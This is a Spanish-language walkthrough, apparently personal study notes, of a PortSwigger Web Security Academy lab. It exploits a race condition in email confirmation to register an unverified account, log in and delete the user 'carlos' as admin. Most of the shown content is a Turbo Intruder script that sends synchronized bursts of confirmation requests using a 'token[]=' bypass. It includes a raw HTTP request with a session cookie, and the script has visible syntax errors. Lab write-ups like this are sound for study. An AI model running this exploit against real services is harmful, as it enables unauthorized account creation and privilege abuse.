 Una vez lanzado el ataque, revisamos los resultados en función del código de estado y el tamaño de la respuesta. Si alguna de las confirmaciones devuelve un 200 y menciona que el registro del usuario fue exitoso, tomamos nota del nombre de usuario.

Luego, usamos la contraseña estática definida en el ataque para iniciar sesión con la nueva cuenta. Finalmente, accedemos al panel de administración y eliminamos al usuario carlos, resolviendo así el laboratorio.

Esta clase muestra cómo confirmar el éxito del ataque y completar la explotación de principio a fin.

Solucion
 y quedaria asi
(def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    confirmation_email =  '''POST /confirm?token[]= HTTP/2
Host: 0ade005a033104308015582a00e700ce.web-security-academy.net
Cookie: phpsessionid=RxwYlBG5FYgFJmUUJwzvxA29D7mv7opF
Content-Length: 0

'''
    
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        username = "Lobotech" + str(i)
        engine.queue(target.req, username, gate=str(i))

        for j in range(50):
            engine.queue(confirmation_email, gate=str(i))

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate(str(i))


def handleResponse(req, interesting):
    table.add(req))


me sirvio el payload el otro payload

![Pasted image 20250901230643.png](imagenes/Pasted image 20250901230643.png)
asi que probamos logearnos
![Pasted image 20250901230835.png](imagenes/Pasted image 20250901230835.png)
y eliminamos al carlos
![Pasted image 20250901230905.png](imagenes/Pasted image 20250901230905.png)
asi quedo
![Pasted image 20250901230936.png](imagenes/Pasted image 20250901230936.png)
![Pasted image 20250901230959.png](imagenes/Pasted image 20250901230959.png)
![Pasted image 20250901231017.png](imagenes/Pasted image 20250901231017.png)

